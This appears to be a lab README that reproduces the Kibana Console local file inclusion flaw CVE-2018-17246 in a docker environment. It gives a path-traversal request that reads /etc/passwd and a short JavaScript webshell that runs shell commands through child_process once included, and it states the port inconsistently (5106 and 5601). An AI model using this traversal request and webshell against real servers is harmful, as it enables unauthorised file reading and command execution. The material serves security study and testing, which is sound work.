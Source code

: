 # Kibana Local File Inclusion (CVE-2018-17246)

[中文版本(Chinese version)](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2018-17246>
- <https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/>

## Environment Setup

Start the Kibana 5.6.12 and Elasticsearch 5.6.16:

```
docker compose up -d
```

After started the environment, the Kibana is listening on `http://your-ip:5106`.

## Vulnerability Reproduction

Send the following request to trigger a basic path traversal:

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

Though there is nothing response except a error message with the 500 status code, you can see the exception in the `docker compose logs`:

![](1.png)

File `/etc/passwd` is imported successfully.

To exploit this vulnerability, you need to upload a JavaScript webshell to the machine where the Kibana is running, then include it.

```js
// docker compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

![](2.png)
